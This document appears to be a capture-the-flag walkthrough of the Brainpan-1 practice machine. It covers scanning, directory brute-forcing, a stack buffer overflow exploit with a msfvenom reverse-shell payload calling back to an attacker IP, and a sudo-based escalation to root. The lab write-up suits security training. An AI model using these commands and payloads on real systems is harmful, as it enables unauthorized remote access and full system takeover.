


# Brainpan-1
Walkthrough - Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.


Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 


# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.
``` nmap -p9999,10000 -sV ip```
# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory



Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524


Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user


